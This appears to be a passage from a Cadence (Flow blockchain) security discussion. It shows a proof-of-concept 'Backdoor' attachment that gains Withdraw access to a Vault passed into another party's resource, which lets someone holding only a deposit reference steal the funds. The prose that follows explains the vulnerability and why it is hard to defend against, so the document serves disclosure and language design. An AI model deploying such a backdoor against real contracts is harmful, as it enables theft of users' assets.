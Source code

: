 ```cadence

    init(incorporationEquity: @Vault) {

        pre {
            incorporationEquity.balance >= 100.0
        }

        self.vault <- incorporationEquity
    }

    access(all) fun getDepositOnlyReference(): auth(Deposit) &Vault {
        return &self.vault as auth(Deposit) &Vault
    }
}
// Victim code ends

access(all) attachment Backdoor for Vault {

  require entitlement Withdraw

  access(all) fun sneakyWithdraw(amount: UFix64): @Vault {
    return <- base.withdraw(amount: amount)
  }

}

access(all) fun main(): UFix64 {

   let backdooredVault <- attach Backdoor() to (<- create Vault(balance: 100.0)) with (Withdraw)
   let c <- create Company(incorporationEquity: <- backdooredVault)
   var ref = c.getDepositOnlyReference()
   
   // The following would fail because we only have a Deposit entitlement
   // var x <- ref.withdraw(amount: ref.balance)
   // Luckily we have backdoored the underlying vault so we can do this:
   var x <- ref[Backdoor]!.sneakyWithdraw(amount: ref.balance)
   var amountOfFundsStolen = x.balance

   destroy x
   destroy c

   return amountOfFundsStolen
} 
```

In this code sample, a resource that wraps a vault is vulnerable to backdooring via an attachment. 
A malicious attachment author, as in this example, could write an attachment that requires the ability to `Withdraw` from its base `Vault`, 
attach it to this `Vault`, and then provide that input `Vault` to someone else's resource without that other person knowing that the `Vault` 
is compromised. The only way for the author of the `Company` resource in this example to defend against this attack is for them to "sanitize" their
`Vault` inputs by enforcing that they have no attachments on them, which is unwieldly and would impose an extremely defensive coding style that is
detrimental to composability on chain. 
